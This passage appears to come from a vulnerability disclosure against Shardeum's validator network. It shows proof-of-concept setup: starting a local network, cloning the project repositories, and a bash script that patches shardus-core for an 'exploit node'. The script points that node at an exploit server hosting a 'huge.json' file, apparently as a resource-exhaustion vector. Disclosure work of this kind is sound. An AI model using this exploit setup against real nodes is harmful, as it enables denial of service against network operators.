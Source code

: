 ```
shardus start 9
```

Setup and install target JSON-RPC service and start it. https://github.com/shardeum/json-rpc-server?tab=readme-ov-file#developer-environment-setup

Setup and start Relay-Collector and Relay-Distributor services if you want the full experience (won't be utilized).

#### Exploit node setup

In a separate directory, we'll create the exploit node. This includes repositories for shardus-core, shardeum and validator-cli. Setup the directory environment and apply exploit patches with the following script (remember to setup address variable for the exploit server). If you do not want to host the exploit server and file yourself, you can probably utilize 3rd-party download speed testing sites / files for an individual test case.

NOTE: I've tested the script from scratch on Debian 12 VM, but your mileage may vary depending on the box, as it's rather complex set of different components. If for some reason the script fails to deliver, you can just extract the patches from the echo lines and setup manually. If it totally fails, let me know to debug it.

NOTE: In the following script, setup the EXPLOIT\_SERVER\_ADDR to confrom with our environment!

```
#!/bin/bash

# BEFORE EXECUTING, SETUP EXPLOIT_SERVER_ADDR
EXPLOIT_SERVER_ADDR=http://192.168.0.100:8000/huge.json
echo "Set Exploit Server as $EXPLOIT_SERVER_ADDR"

# Setup directories, repositories and links
echo "Creating directory structure and cloning repositories..."
mkdir exploit_test
cd exploit_test
git clone https://github.com/shardeum/shardus-core
git clone https://github.com/shardeum/shardeum
git clone https://github.com/shardeum/validator-cli
ln -s shardeum validator

# Install, patch and compile shardus-core
echo "Setting up shardus-core..."
cd shardus-core

echo "diff --git a/src/network/index.ts b/src/network/index.ts
index ec6f9ad2..e95e9b27 100644
--- a/src/network/index.ts
+++ b/src/network/index.ts
@@ -108,6 +108,8 @@ export class NetworkClass extends EventEmitter {
   }
 
   customSendJsonMiddleware(req, res, next) {
+    // MODIFIED, commenting this prevents node crash upon attempting to set already sent headers
+    /*
     const originalSend = res.send;
     res.send = function (data) {
       if (typeof data === 'object' && data !== null) {
@@ -123,7 +125,7 @@ export class NetworkClass extends EventEmitter {
       res.setHeader('Content-Type', 'application/json')
       return originalSend.call(this, jsonString)
     }
-
+    */
     next()
   }
" > shardus-core_exploit.patch
```